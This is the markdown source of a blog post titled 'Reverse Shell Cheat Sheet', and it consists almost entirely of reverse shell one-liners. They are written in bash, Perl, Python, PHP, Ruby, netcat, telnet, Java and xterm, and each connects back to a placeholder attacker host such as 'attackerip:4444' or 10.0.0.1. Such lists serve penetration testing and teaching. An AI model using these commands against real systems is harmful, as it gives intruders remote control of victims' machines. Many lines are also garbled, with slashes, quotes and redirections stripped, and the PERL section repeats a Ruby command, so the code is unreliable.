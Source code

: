 ```yaml
---
layout: single
title: Reverse Shell Cheat Sheet
excerpt: "List of reverse shell commands."
date: 2020-04-28
classes: wide
header:
  teaser: /assets/images/rev-shell-cheat-sheet/rev-shell-001.png
  teaser_home_page: true
  icon: /assets/images/thumbs-up-icon.png
categories:
  - cheat sheet
tags:
  - reverse shell
---
```


![](/assets/images/rev-shell-cheat-sheet/rev-shell-001.png)

## References
Pentestmonkey
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


## Bash

```
bash -i & devtcp10.0.0.18080 0&1
```

```
exec /bin/bash 0&0 2>&0
```

```
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```

## PERL

```
perl -e 'use Socket;$i=10.0.0.1;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(tcp));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,&S);open(STDOUT,&S);open(STDERR,&S);exec(binsh -i);};'
```

```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((10.0.0.1,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([binsh,-i]);'
```

## PHP

```php
php -r '$sock=fsockopen(10.0.0.1,1234);exec(binsh -i &3 &3 2&3);'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## PERL

```
ruby -rsocket -e'f=TCPSocket.open(10.0.0.1,1234).to_i;exec sprintf(binsh -i &%d &%d 2&%d,f,f,f)'
```

## Netcat

```
nc -e binsh 10.0.0.1 1234
```

```
nc -c /bin/sh attackerip 4444
```

```
/bin/sh | nc attackerip 4444
```

```
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```

```
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

## Java

```
r = Runtime.getRuntime()
p = r.exec([binbash,-c,exec 5devtcp10.0.0.12002;cat &5  while read line; do $line 2&5 &5; done] as String[])
p.waitFor()
```

## xterm

```
xterm -display 10.0.0.11
Xnest 1
```
